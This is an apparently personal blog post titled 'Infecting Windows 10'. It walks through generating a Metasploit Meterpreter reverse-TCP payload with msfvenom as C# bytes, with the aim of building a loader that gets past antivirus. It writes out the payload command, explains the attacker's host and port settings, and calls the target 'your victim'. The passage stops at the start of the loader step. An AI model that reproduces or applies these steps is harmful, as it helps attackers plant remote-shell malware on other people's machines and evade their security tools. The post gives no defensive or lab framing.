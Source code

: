 ```yaml
---
layout: post
title:  "Infecting Windows 10"
date:   2023-06-30 21:21:21 +0530
tags: [csharp,kali-linux,virus]
---
```


**Introduction to Infecting Windows 10**  

For my first post that has actual content, I am going to show you guys how to create a payload in Metasploit on Kali Linux and then create a loader for it in C#!

**Step 1: Creating the Payload**

First you need to hop on Kali and open a terminal. Then we are going to use a command to create the payload to use. Type the following in your terminal:
```bash
$ sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$HOST LPORT=$PORT -f csharp > payload.cs
```
Okay so, what does this do? This command creates a csharp file containing the payload bytes we will execute in the loader.

<i>HOST</i> refers to the ip of the attacker (127.0.0.1)  
<i>PORT</i> refers to the port that you will listen to on the offending machine (4444)  

To find your local IP address do the following command:  
```bash
$ ifconfig
```  
You should see something like this:  
<img src="https://char2int.com/assets/image01.webp" alt="image01">  

To find your public IP address do the following command:  
```bash
$ curl icanhazip.com
```  
You should see something like this:  
<img src="https://char2int.com/assets/image02.webp" alt="image02">  

You can change your port to any number between **0 and 65536**.  

You now have your payload and it's time to infect your victim! Except, oh wait! How do we execute it? Most methods of executing these bytes are detected by every antivirus under the sun! Head to step two to find out how to use this payload you created!  

**Step 2: Creating the Loader**  